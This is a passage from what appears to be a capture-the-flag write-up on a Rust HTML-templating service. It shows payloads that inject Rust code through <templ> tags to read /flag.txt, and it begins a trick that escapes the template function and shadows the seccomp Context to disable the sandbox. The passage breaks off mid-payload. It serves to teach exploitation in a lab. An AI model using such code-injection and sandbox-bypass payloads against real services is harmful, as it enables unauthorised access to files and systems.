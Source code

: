         return "App failed to start"

The challenge here seems to be easy at first as we just need to place the correct rust code inside of one of the &lt;templ&gt; tags in the uploaded file to open and read the flag.txt file:

    :::html
    <html>
    <title><templ>fs::read_to_string("/flag.txt").unwrap()</templ></title>
    <h1><templ>"bruh".to_string()</templ></h1>
    </html>

However this attempt fails because the rust application uses the seccomp library to limit the system calls that are allowed to do:

    :::rust
    use seccomp::*;
    
    ...
    
    static ALLOWED: &'static [usize] = &[0, 1, 3, 11, 44,
                                         60, 89, 131, 202,
                                         231, 318];
    
    ...
    
    fn apply_seccomp() {
        let mut ctx = Context::default(Action::KillProcess).unwrap();
        for i in ALLOWED {
            let rule = Rule::new(*i, None, Action::Allow);
            ctx.add_rule(rule).unwrap();
        }
        ctx.load();
    }

By looking at the beginning of the rust_template variable we can see that the seccomp namespace is not imported but only its contents. This gives us the chance to create the same classes as provided by the lib.rs but with manipulated behaviour. By injecting our own manipulated "Context" class into the uploaded file we can prevent the rust application from applying the seccomp rules into the kernel:

    :::html
    <html>
    <title><templ>fs::read_to_string("/flag.txt").unwrap()</templ></title>
    <h1><templ>
      "anything".to_string()
      // / 1) escape from temp1() method definition by putting a } here
    }
    
    // / 2) seccomp reimplementation - copied from lib.rs and manipulated to allow everything
    // /    this works because the seccomp::Context object is imported with * and instanciated without
    // /    using its original namespace seccomp::
    
    // / <![CDATA[
    // /    Note: the CDATA section enables us to use "<" and ">" (prevents the html parser from recognizing tags in here)
    use seccomp_sys::scmp_compare::*;
    use seccomp_sys::*;
    